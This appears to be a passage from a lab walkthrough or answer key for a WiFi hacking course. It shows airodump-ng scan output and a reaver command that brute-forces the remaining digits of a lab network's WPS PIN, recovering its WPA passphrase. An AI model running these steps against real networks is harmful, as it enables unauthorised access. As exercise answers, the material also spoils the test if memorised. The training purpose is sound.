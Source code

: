 Answer: `NullPINS`

# Online PIN Brute-Forcing Using Reaver

## Question 3

### "The first 4 digits of the WPS PIN for the WiFi network named CyberNetSecure are 8487. What are the remaining 4 digits?"

Students will reuse the previously established RDP session. Additionally, students will refer to the output of the previous wireless network scan using `airodump-ng` to obtain the MAC address (`D8:D7:3D:EB:29:D5`) of the `CyberNetSecure` network:

```
root@WiFiIntro:/home/wifi# airodump-ng mon0 --wps

CH 11 ][ Elapsed: 6 s ][ 2024-11-04 07:52 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 D8:D7:3D:EB:29:D5  -28       64        0    0   1   54   WPA2 CCMP   PSK  2.0    CyberNetSecure                                         
 22:FB:96:FA:D5:D6  -28       64        0    0   1   54   WPA2 CCMP   PSK  2.0    Corp-VPN                                               
 72:54:37:49:34:D3  -28       64        0    0   1   54   WPA2 CCMP   PSK  2.0    HackTheWifi  
```

Subsequently, students will use `reaver` to retrieve the final four digits of the PIN of the `CyberNetSecure` wireless network using the known PIN of `8487`:

Code: shell

```shell
reaver -i mon0 -b D8:D7:3D:EB:29:D5 -p 8487
```

```
root@WiFiIntro:/home/wifi# reaver -i mon0 -b D8:D7:3D:EB:29:D5 -p 8487

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from D8:D7:3D:EB:29:D5
[+] Received beacon from D8:D7:3D:EB:29:D5
[!] Found packet with bad FCS, skipping...

<SNIP>

[+] 91.46% complete @ 2024-11-04 08:32:25 (1 seconds/pin)
[+] Associated with D8:D7:3D:EB:29:D5 (ESSID: CyberNetSecure)
[+] Associated with D8:D7:3D:EB:29:D5 (ESSID: CyberNetSecure)
[+] Associated with D8:D7:3D:EB:29:D5 (ESSID: CyberNetSecure)
[+] Associated with D8:D7:3D:EB:29:D5 (ESSID: CyberNetSecure)
[+] Associated with D8:D7:3D:EB:29:D5 (ESSID: CyberNetSecure)
[+] 91.51% complete @ 2024-11-04 08:32:33 (1 seconds/pin)
[+] Associated with D8:D7:3D:EB:29:D5 (ESSID: CyberNetSecure)
[+] WPS PIN: '8487{hidden}'
[+] WPA PSK: 'EveryTh!nGisF@k3'
[+] AP SSID: 'CyberNetSecure'
```
